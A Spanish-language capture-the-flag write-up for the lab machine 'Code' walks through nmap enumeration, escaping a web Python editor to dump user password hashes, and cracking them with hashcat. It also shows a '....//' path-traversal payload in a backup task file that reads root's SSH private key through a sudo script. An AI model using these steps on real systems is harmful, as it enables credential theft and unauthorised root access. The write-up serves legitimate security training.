 # Información

+ Nombre: Code
+ IP: 10.129.231.240
+ OS: Linux
+ Dificultad: Easy

# Enumeración

## Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n --open -oG allports 10.129.231.240
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

Escaneo detallado:

```
nmap -p22,5000 -sCV -oN recon 10.129.231.240
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 5000 hay un servidor web `Gunicorn`. 
## Web

En la pagina se encuentra un editor de codigo pyhton:

![web.png](Images/web.png)

Intento de ejecutar comandos en el sistema con `os`, pero esta restringido:

![os.png](Images/os.png)

![os2.png](Images/os2.png)

Enumero variables y clases globales:

![globals.png](Images/globals.png)

db y User son interesantes.

![type.png](Images/type.png)

`User` es `sqlalchemy`.

+ `Sqlalchemy` es una librería de python para trabajar con bases de datos relacionales.

![dir.png](Images/dir.png)

Columnas `id`, `username` y `password` en `User`.

usuarios y hashes de contraseña:

![query.png](Images/query.png)

## Hashcat

Uso hashcat para intentar crackear los hashes:

```
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
``` 

+ `-a 0` para indicar ataque con diccionario.
+ `-m 0` indicar el tipo de hash, `0` pertenece a md5.

```
759b74ce43947f5f4c91aeddc3e5bad3:development              
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
```

# Shell como martin

Las credenciales `martin` y `nafeelswordsmaster` son validas para conexión por `ssh`:

![ssh.png](Images/ssh.png)

![martin.png](Images/martin.png)
# PrivEsc

![sudo.png](Images/sudo.png)

`martin` puede ejecutar `backy.sh` sin contraseña y como cualquier usuario(`incluyendo root`).

`backy.sh`:

```
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

En el directorio `home` de `martin` hay un directorio `backup` con un comprimido y un archivo `task.json`:

![json.png](Images/json.png)

El script usa un archivo json para crear un backup.

+ `destination:` El directorio donde se guarda el backup.
+ `directories_to_archive:` directorios a comprimir.
+ `exclude: .*` excluye archivos que comiencen en `.` que son archivos ocultos. 

Creo una copia de `task.json`:

```
cp task.json crab.json
```

Intento crear un backup de la clave privada `id_rsa` del usuario `root`:

```
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/../root/.ssh/id_rsa"
        ]
}
```

Los  `..` son para retroceder al directorio raiz, porque el script valida si el path comienza en `/home/ o /var/`.

Fail:

![sudo2.png](Images/sudo2.png)

En el script, `gsub("\\.\\./"; "")` esta remplazando `../` por cadenas vacias.

Agrego doble `../` 
`/home/....//root/.ssh/id_rsa`

![sudo3.png](Images/sudo3.png)

Lo descomprimo y leo la clave privada `id_rsa`:

```
tar -jxf code_home_.._root_.ssh_id_rsa_2025_August.tar.bz2
```

```
cat root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<..snip..>
j6PbYp7f9qvasJPc6T8PGwtybdk0LdluZwAC4x2jn8wjcjb5r8LYOgtYI5KxuzsEY2EyLh
hdENGN+hVCh//jFwAAAAlyb290QGNvZGU=
-----END OPENSSH PRIVATE KEY-----
```

Copio la clave en un archivo llamado `id_rsa`, y la uso para conectarme como `root` por `ssh`:

![root.png](Images/root.png)

```
root@code:~# whoami
root
root@code:~# hostname -I
10.129.231.240 dead:beef::250:56ff:fe94:7aae 
root@code:~# cat /root/root.txt
636b0bf9************************
```

Se me olvido la flag `user.txt`, se encuentra en el directorio home `app-production`, el usuario `martin` no tiene permisos para acceder a el:

```
root@code:~# cat /home/app-production/user.txt
8695228907f*********************
```

# 🦀
